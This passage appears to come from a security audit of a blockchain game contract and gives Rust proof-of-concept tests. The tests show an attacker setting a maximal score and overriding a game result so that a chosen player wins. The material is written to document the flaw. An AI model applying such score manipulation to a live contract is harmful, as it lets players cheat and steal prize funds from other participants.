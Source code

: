 ## Proof of Concept

### Complete Winner Manipulation Test
```rust
#[cfg(test)]
mod winner_manipulation_tests {
    use super::*;

    #[test]
    fn test_direct_score_manipulation() {
        let attacker = Pubkey::new_unique();
        let opponent1 = Pubkey::new_unique();
        let opponent2 = Pubkey::new_unique();

        // Create manipulated scores
        let mut scores = HashMap::new();
        scores.insert(attacker, u32::MAX);     // Maximum score
        scores.insert(opponent1, 100);        // Low score
        scores.insert(opponent2, 150);        // Low score

        let winner = determine_winner_internal(&scores).unwrap();

        assert_eq!(winner, attacker);

        let attacker_score = scores.get(&attacker).unwrap();
        let opponent_avg = (scores.get(&opponent1).unwrap() + scores.get(&opponent2).unwrap()) / 2;

        println!("Direct score manipulation test:");
        println!("- Attacker score: {}", attacker_score);
        println!("- Opponent average: {}", opponent_avg);
        println!("- Score advantage: {}x", attacker_score / opponent_avg.max(1));
        println!("- Winner: {}", winner);
    }

    #[test]
    fn test_result_override() {
        let desired_winner = Pubkey::new_unique();
        let original_winner = Pubkey::new_unique();

        let mut game_result = GameResult {
            game_session: Pubkey::new_unique(),
            winning_team: 1, // Originally blue team
            team_red_score: 100,
            team_blue_score: 200,
            individual_scores: HashMap::from([
                (original_winner, 200u32),
                (desired_winner, 150u32),
            ]),
            winner_determination_method: WinnerMethod::HighestScore,
        };

        // Override result to favor desired winner
        game_result.winning_team = 0; // Change to red team
        game_result.team_red_score = 1000;
        game_result.team_blue_score = 100;
        game_result.individual_scores.insert(desired_winner, 1000);
        game_result.individual_scores.insert(original_winner, 100);

        // Verify override successful
        let new_highest = game_result.individual_scores.iter()
            .max_by_key(|(_, score)| *score)
            .map(|(player, _)| *player)
```